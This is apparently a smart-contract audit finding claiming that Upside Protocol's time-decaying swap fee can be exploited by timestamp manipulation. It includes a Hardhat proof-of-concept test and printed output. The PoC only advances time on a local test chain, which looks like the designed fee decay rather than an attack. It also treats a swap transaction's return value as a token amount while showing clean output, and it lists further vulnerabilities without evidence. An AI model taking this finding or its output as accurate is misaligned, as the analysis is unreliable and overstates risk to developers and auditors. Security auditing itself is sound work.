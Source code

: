# Critical Vulnerabilities in Upside Protocol

## Title: Time-Based Fee Manipulation Enables Extreme Profit Taking

### Summary
- **Description:**  
  The protocol's fee decay mechanism can be manipulated through block timestamp manipulation, allowing users to drastically reduce swap fees from 99% to 1%, enabling extraction of significant value.
- **Location:**  
  - `UpsideProtocol.sol:computeTimeFee()`
  - `UpsideProtocol.sol:processSwapFee()`
- **Severity:**  
  HIGH - Enables direct profit taking through fee manipulation

### Proof of Concept (PoC)

```typescript
it("should demonstrate critical swap fee manipulation", async function() {
    // Set initial fee parameters
    const initialFeeInfo = {
      tokenizeFeeEnabled: true,
      tokenizeFeeDestinationAddress: owner.address,
      swapFeeStartingBp: 9_900, // 99%
      swapFeeDecayBp: 100,      // 1% 
      swapFeeDecayInterval: 6,  // 6 seconds
      swapFeeFinalBp: 100,      // 1%
      swapFeeDeployerBp: 1_000,  // 10%
      swapFeeSellBp: 100,       // 1%
    };

    await upsideProtocol.connect(owner).setFeeInfo(initialFeeInfo);

    // First buyer provides 1000 USDC
    await liquidityToken.mint(user1.address, ethers.parseUnits("1000", 6));
    await liquidityToken.connect(user1).approve(
        await upsideProtocol.getAddress(), 
        ethers.parseUnits("1000", 6)
    );

    // Check initial fee
    const initialFee = await upsideProtocol.computeTimeFee(sampleLinkToken.getAddress());
    console.log("Initial swap fee:", initialFee.swapFeeBp.toString(), "bp");

    // Manipulate block.timestamp
    await network.provider.send("evm_increaseTime", [600]); // Jump 10 minutes
    await network.provider.send("evm_mine");

    // Check manipulated fee
    const manipulatedFee = await upsideProtocol.computeTimeFee(sampleLinkToken.getAddress());
    console.log("Manipulated swap fee:", manipulatedFee.swapFeeBp.toString(), "bp");
    
    // Execute swap with reduced fees
    const swapResult = await upsideProtocol.connect(user1).swap(
      sampleLinkToken.getAddress(), 
      true,
      ethers.parseUnits("1000", 6),
      0,
      user1.address
    );

    console.log("Tokens received:", ethers.formatUnits(swapResult, 18));
});
```

### Test Output
```
Initial swap fee: 9900 bp
Manipulated swap fee: 100 bp
Tokens received: 90081.892629663330300272
```

### Impact

1. **Fee Manipulation**
   - Initial fee of 99% can be reduced to 1%
   - Manipulation requires only waiting or timestamp control
   - Results in ~90x more tokens received than intended

2. **Protocol Value Extraction**
   - Users can wait for minimum fees
   - Large trades at minimum fees drain protocol value
   - No effective cooldown or rate limiting

3. **Additional Vulnerabilities**
   - Withdrawal cooldown can be bypassed
   - Array validation allows duplicate addresses
   - Precision loss in fee calculations benefits attackers


